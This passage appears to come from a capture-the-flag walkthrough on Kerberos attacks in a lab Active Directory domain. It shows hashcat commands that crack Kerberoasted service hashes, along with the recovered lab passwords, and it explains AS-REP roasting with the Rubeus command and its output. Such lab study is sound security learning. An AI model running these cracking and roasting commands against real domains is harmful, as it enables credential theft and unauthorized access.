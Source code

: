 ```shell
````

**What is the HTTPService Password?**

- ``hashcat -m 13100 -a 0 httpservicehash.txt Pass.txt``
- Summer2020

**What is the SQLService Password?**

- ``hashcat -m 13100 -a 0 sqlservicehash.txt Pass.txt``
- MYPassword123#

* * * 

## Task 5 - AS-REP Roasting w/ Rubeus 

- AS_REP Roasting dumps the krbasrep5 hashes of users that have Kerberos pre-auth disabled. 
- Rubeus has a simple and easy to understan comming to AS-REP roast and attack users with pre-auth disabled. 
- After dumping hash from Rubneus we use hashcat in order to crack the krbasrep5 hash
- Others tools we can use such as kekeo and Impacket's GetNPUsers.py. Rubeus is easiar to use because it automaticalld finds AS-REP Roastable users where with GETNPUsers you have to enumerate the users beforehand and know which users are AS-REP Roastable.

##  AS-REP Roasting Overview

During pre-authentication, the users hash will be used to encrypt a timestamp that the domain controller will attempt to decrypt to validate that the right hash is being used and is not replaying a previous request. After validating the timestamp the KDC will then issue a TGT for the user. If pre-authentication is disabled you can request any authentication data for any user and the KDC will return an encrypted TGT that can be cracked offline because the KDC skips the step of validating that the user is really who they say that they are.

![0xskar](/assets/kerberos04.png)

##  Dumping KRBASREP5 Hashes w/ RUBEUS

1. ``cd Downloads`` - nagivate to Rubeus
2. ``Rubeus.exe asreproast`` - This will run the AS-REP roast command looking for vulnerable users and then dump found vulnerable user hashes.

```shell
controller\administrator@CONTROLLER-1 C:\Users\Administrator\Downloads>Rubeus.exe asreproast

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0


[*] Action: AS-REP roasting

[*] Target Domain          : CONTROLLER.local

[*] Searching path 'LDAP://CONTROLLER-1.CONTROLLER.local/DC=CONTROLLER,DC=local' for AS-REP roastable users
[*] SamAccountName         : Admin2
[*] DistinguishedName      : CN=Admin-2,CN=Users,DC=CONTROLLER,DC=local
[*] Using domain controller: CONTROLLER-1.CONTROLLER.local (fe80::edde:c433:95ab:1b34%5)
[*] Building AS-REQ (w/o preauth) for: 'CONTROLLER.local\Admin2'
[+] AS-REQ w/o preauth successful!
```